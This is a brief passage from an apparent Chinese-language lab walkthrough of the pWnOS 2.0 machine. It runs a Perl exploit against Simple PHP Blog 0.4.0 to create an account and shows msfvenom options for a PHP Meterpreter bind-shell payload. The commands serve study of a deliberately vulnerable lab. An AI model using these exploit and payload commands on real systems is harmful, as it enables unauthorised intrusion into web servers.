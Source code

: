 添加账户：

```bash
perl 1191.pl -h http://10.10.10.100/blog -e 3 -U sb -P sb
```

> msf也有`Simple PHP Blog 0.4.0`的攻击模块可以利用

登陆账户到blog：

![Alt text](/img/game/pwnos2.0/1511770084415.png)

查看msfvenom的php shell详情：

```bash
root@kali:~# msfvenom -p php/meterpreter/bind_tcp --payload-options
```

![Alt text](/img/game/pwnos2.0/1511837333005.png)